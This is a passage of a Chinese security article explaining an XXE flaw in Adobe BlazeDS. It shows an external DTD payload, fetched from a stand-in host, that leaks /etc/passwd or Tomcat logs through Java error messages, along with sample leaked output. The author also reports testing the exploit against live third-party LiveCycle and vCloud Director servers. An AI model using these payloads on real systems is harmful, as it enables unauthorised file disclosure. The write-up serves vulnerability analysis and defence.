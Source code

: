 ```
sys:x:3:3:sys:/dev:/bin/sh
[...]
jetty:x:131:143::/usr/share/jetty:/bin/false
............Bu......../Client.Message.Encoding.I707E4DB6-DB0B-6FED-EC4C-01259078D48B
[+] Done

```

可以看到`/etc/passwd`文件内容被通过报错信息爆出，作者所使用的利用代码中调用了一个外部的DTD文件：[http://somewhere/blazeds.dtd](http://somewhere/blazeds.dtd)，其内容如下：

```
<!ENTITY % yolo SYSTEM 'file:///etc/passwd'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM '_://%yolo;'>">
%c;
%rrr;

```

外部DTD中，首先定义了一个参数实体%yolo；然后在参数实体中%c中对其进行了引用；在调用%rrr;时，由于rrr所调用的协议“_”并不被java所支持，导致报错，整个URL全部出现在报错信息中，`/etc/passwd`的内容就藏在其中。同样，还可以用来读取tomcat的日志：

```
<!ENTITY % yolo SYSTEM 'file:///proc/self/cwd/../logs/catalina.YYYY-MM-DD.log'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM '_://%yolo;'>">
%c;
%rrr;

```

0x04 漏洞利用之三 （使用了BlazeDS的软件产品）
=============================

* * *

原作者在文中提到了，一些软件产品中也使用了BlazeDS，这些产品如果没有升级打补丁，同样也会受到影响。这些软件包括来自Adobe的ColdFusion 和 LiveCycle Data Services，Vmware的vCenter Server, vCloud Director 和Horizon View。为了对这一说法进行验证，我搜索了一台LiveCycle Data Services的服务器，如下图：

![p1](http://drops.javaweb.org/uploads/images/bbcef91d21cd74cf13e2c6beee8f40859da4e6a7.jpg)

抓包得到amf的接口地址，使用利用脚本对该接口进行测试，结果如下图所示：

![p2](http://drops.javaweb.org/uploads/images/d24ba615bde34b4dc63ae017d0189804d9deeb01.jpg)

同样，我又找到一台Vmware的vCloud Director，同样发现存在问题：

![p3](http://drops.javaweb.org/uploads/images/b7b2cbe0a5f2b1212c8370203f04f3d2ee00c5b3.jpg)

0x05 漏洞利用之四（使用了BlazeDS的客户端软件）
=============================

* * *

大家常用的BurpSuite就是其中之一，躺枪！虽然最新版本的BurpSuite已经修复了此问题，但是大多数同学手中的版本可能并不是最新版本。根据原作者的说明，一起来看看这个漏洞的效果，由于我本机是windows，所以利用代码是windows的。 首先，创建一个html文件.

